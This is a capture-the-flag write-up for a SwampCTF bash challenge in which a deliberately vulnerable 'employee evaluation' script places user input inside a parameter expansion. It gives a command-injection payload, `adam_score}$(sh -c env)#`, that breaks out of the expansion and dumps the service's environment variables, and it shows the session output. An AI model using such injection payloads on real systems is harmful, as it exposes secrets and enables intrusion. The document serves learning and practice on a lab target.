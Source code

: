 ## Employee Evaluation - Pwn

Prompt:

```text
This company sucks. They're ranking all the employees against one another, and they keep putting security to the sideline. The CISO told me that they don't care about actual code quality, just fancy buzzwords and looking nice. I want to get out of here, but I can't without this dang secret code. It's for, uh, good things, and not sharing secrets. This exposed evaluation script seems like a good start. Can you help me out?
```

Connecting to the provided host gives us the following output:

```text
❯ nc chals.swampctf.com 60010  
/-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-\  
|                                       |  
|  SwampCo Employee Evaluation Script™  |  
|                                       |  
|  Using a new, robust, and blazingly   |  
|  fast BASH workflow, lookup of your   |  
|  best employee score is easier than   |  
|  ever--all from the safe comfort of   |  
|     a familiar shell environment      |  
|                                       |  
\-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-/  
  
To start, enter the employee's name...  
```

From the prompt we can assume it's running in a bash environment, I provided `| whoami` as initial output to see what it would spit out.

```text
| whoami  
/app/run: line 44: ${employee_| whoami_score}: bad substitution
```

It looks like our output is getting substituted inside of a variable using the syntax `${employee_[input]_score}`, we need to find a way to break out of that and get the flag output.

I went with the payload `adam_score}$(sh -c env)#`. `adam_score}` finished the line with a legit employee value, and `$(sh -c env)` should output the environment variables. The trailing `#` will comment out the rest of the line and ensure our command is run.

```text
❯ nc chals.swampctf.com 60010  
/-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-\  
|                                       |  
|  SwampCo Employee Evaluation Script™  |  
|                                       |  
|  Using a new, robust, and blazingly   |  
|  fast BASH workflow, lookup of your   |  
|  best employee score is easier than   |  
|  ever--all from the safe comfort of   |  
|     a familiar shell environment      |  
|                                       |  
\-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-/  
  
To start, enter the employee's name...  
adam_score}$(sh -c env)#  
Employee adam_score}$(sh -c env)# score: 84}employee_cole_score=57  
SHLVL=0  
employee_alex_score=00  
employee_daniel_score=48  
employee_ben_score=47  
employee_omar_score=74  
```